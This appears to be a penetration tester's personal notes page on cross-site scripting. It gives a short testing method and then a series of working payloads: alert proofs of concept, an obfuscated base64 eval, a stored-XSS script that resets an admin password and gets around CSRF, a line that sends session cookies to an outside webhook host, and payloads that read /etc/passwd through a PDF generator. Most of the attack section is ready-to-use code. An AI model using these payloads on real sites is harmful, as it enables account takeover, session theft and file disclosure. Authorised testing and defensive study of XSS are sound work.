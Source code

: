 ```yaml
---
title: XSS
---
```


## What is this about?
Cross-Site scripting attacks. 
[This](https://en.wikipedia.org/wiki/Cross-site_scripting) is all the info you need to know, and [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) are all the example you'll need.

## Couple basic stuff I usually do
To find a vuln input, these are the steps I follow on every field, this may sometimes include headers like the *User-Agent* ...
* Directly testing characters that might break things like {--!";'/\<>
* Testing unescaped version of those characters through whatever proxy I use
* Spamming XSS lists and checking if something goes wrong then finding which one worked 
* Running tech specific payloads

Now, except if I feel that something might work even though nothing did anything weird, I'll just try another page.

Once the vuln input is found this is what I usually go for depending on time left and breach vectors I have/may have on the engagement.

### The "Fuck it, I just need a screenshot"
```javascript
<script>alert('You done fucked up now!!')</script>
```

### The "Nah a screenshot will do, the PoC is there"
```javascript
<svg/onload=alert("It's a bird!? It's a plane!? No! It's an XSS!!")>
```

### The "I told you not to regex filter by hand last time..."
```javascript
<img onload="eval(atob('YWxlcnQoIkkgdG9sZCB5b3UgbGFzdCB0aW1lIHRvIGZpeCB0aGlzIHNoaXQgdGhlIGNvcnJlY3Qgd2F5Iik='))">
```
You get the point eh?

### I need to exploit this though
Yeah, sometimes you just need to reset the admin's password to connect right? I mean [CORS](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) is a thing nowadays...

Got a stored XSS? good! You might need to add extra headers to match whatever is going on through 
```javascript
<script>
    r = new XMLHttpRequest();    
    r.open('POST', 'https://target/that-profile-page-I-need-to-exploit', true);
    r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    r.send('newpassword=Password1234&repeated-newpassword=Password1234');
</script>
```
You might need to add extra headers with *r.setRequestHeader()* to match whatever is going on, but the skeleton is there.

Oh the Whole CSRF thing? Yeah you're bypassing that if you're running it from the website itself. And if you aren't, you can always do a multistep request, i.e. get the CSRF-token by parsing the returned page from the first request and then run your password change and adding that value in the headers...

You could also send the session cookie to whatever [requestbin](http://requestbin.net/), [postbin](https://postb.in/), [webhook](https://webhook.site), or stuff you [built yourself](https://github.com/Runscope/requestbin). By running a polished version of
```javascript
document.write("<iframe src='https://your-webhook/'"+document.cookie+"></iframe>");
```
Oh noes, security protocols have been bypassed!

### Oh look a pdf that's generated with user input!
Basic LFI by XSS in a PDF generator, used a variant a couple of times, fun times :D

```javascript
<script>
	r = new XMLHttpRequest
	r.onload=function(){
		document.write(this.responseText)
	}
	r.open("GET","file:///etc/passwd")
	r.send()
</script>
```
You could also do
```javascript
<iframe src="file:///etc/passwd"></iframe>
```
Or even some
```javascript
<img src="this-file-doesnt-exist" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```
